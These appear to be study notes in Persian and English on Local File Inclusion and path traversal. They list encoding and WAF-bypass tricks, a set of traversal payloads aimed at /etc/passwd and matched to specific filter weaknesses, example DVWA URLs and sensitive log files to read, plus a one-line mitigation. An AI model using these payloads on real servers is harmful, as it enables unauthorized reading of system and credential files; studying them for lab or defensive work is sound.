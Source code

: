 # Local File Inclusion

## Concept
- از این آسیب پذیری  برای خواند فایل های تنظیمات روی hosting machine استفاده می شود
- همچنین فایل های تصادفی مانند /etc/passwd
- همچنین ممکن است منجر به Information Disclosure شود
- در LFI می توانیم فایل اجرا کنیم ولی در Directory Traversal فقط می توانیم فایل های روی سرور را بخوانیم
- حتما باید با Burp، پاسخ را intercept کنیم

## Bypass
- Encoding
  - ```.``` => %2e
  - ```/``` => %2f
  - ```../``` => %2e%2e%2f
- WAF Bypass
  - ```../``` => ```..././``` 
  - ```../``` => ```....//``` 

## Exploit
  - ```../../etc/passwd``` , ```../../../etc/passwd``` , ```../../../../etc/passwd``` , ...
  - ```/etc/passwd``` 
    - The application blocks traversal sequences but treats the supplied filename as being relative to a default working directory 
  - ```....//....//etc/passwd``` , ```....//....//....//etc/passwd``` , ...
    - The application strips path traversal sequences from the user-supplied filename before using it 
  - ```..%252f..%252f..%252fetc/passwd``` , ```..%252f..%252f..%252fetc/passwd``` , ...
    - The application blocks input containing path traversal sequences. It then performs a URL-decode of the input before using it 
  - ```/var/www/images/../../../etc/passwd```
    - The application transmits the full file path via a request parameter, and validates that the supplied path starts with the expected folder 
  - ```../../../etc/passwd%00.png```
    - The application validates that the supplied filename ends with the expected file extension 


  - ```example2.php?page=intro../../../../../../../../../../etc/passwd%00``` 
  - ```example2.php?page=intro%2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2fpasswd%00``` 
  - ```localhost/dvwa/vulnerabilities/fi/?page=..././..././phpinfo.php```
  - ```localhost/dvwa/vulnerabilities/fi/?page=file:////opt/lampp/htdocs/dvwa/phpinfo.php```

## Intersting files
  - ```/proc/self/environ```
  - ```/var/log/auth.log```
  - ```/var/log/apache2/access.log```
  
## Mitigation
  - Use static file inclusion. hard code the fiels that we want to include in the code.
